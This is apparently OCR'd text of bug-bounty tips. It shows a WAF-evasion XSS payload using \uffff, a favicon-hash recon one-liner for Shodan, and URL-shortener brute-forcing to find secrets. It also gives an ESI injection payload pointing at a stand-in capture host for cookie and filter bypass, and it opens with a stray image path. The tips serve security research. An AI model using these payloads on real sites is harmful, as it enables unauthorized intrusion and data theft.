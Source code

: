 Credit: @ngkogkos

---

### Unicode WAF evasion:

Use invalid unicode characters to bypass the WAF! Spice up your XSS payloads with characters like `\uffff`

`<script>alert(0)</script>` <span style="color:red">doesn't pass</span>

`<scr\uffffipt>alert(0)</script>` <span style="color:green">passes</span>

Credit: @holme_sec

---

### Favicon has recon:

Did you know you can use favicon hashes to discover assets and fingerprint technologies on websites like <span style="color:red">Shodan</span> and <span style="color:red">Binaryedge</span>?

```
> curl -s -L -k https://gitlab.com/favicon.ico | 
python3 -c 'import mmh3,sys,codecs;
print(mmh3.hash(codecs.encode(sys.stdin.buffer.read(),"base64")))'
1278323681
shodan : http.favicon.hash: 1278323681
```

Credit: @kalimer0x00

---

### Predict URL shortners:

<http://urlte.am> bruteforces url shorteners, and makes it easier to do recon and find secrets by bruteforcing the most common URL shortners.

<span style="color:red">
TIP: use their calculator to convert numeric ID's to alphanumeric codes!<br>
e.g. 13371337 = U6uJ
</span>

Credit: gmbtbpvvshezrobb

---

### From XSS to SSRF:

Got XSS on a site that uses caching? Try upgrading that to SSRF through Edge Side Include Injection with this payload:

`<esi:include src="http://yoursite.com/capture" />`

Use it to bypass cookie restrictions, XSS filters & more!

Credit: @georgeomnet

---